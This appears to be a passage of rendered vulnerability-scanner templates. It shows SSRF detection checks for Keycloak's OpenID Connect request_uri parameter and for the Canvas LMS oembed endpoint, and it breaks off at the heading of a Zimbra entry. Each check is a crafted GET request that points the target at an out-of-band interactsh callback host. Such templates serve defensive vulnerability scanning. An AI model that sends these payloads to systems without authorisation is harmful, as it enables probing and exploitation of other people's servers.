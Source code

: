## Requests

- Method - GET

### URL

- {{BaseURL}}/auth/realms/master/protocol/openid-connect/auth?scope=openid&response_type=code&redirect_uri=valid&state=cfx&nonce=cfx&client_id=security-admin-console&request_uri=http://{{interactsh-url}}/

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# Canvas LMS Unauthenticated Blind SSRF

## Description

- Server-Side Request Forgery in Canvas LMS 2020-07-29 allows a remote, unauthenticated attacker to cause the Canvas application to perform HTTP GET requests to arbitrary domains.
- severity - medium
- tags - cve,cve2020,ssrf,oast,blind,tenable

## Requests

- Method - GET

### URL

- {{BaseURL}}/external_content/retrieve/oembed?endpoint=http://{{interactsh-url}}&url=foo

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# Zimbra Collaboration Suite \< 8.8.15 Patch 7 - Server-Side Request Forgery

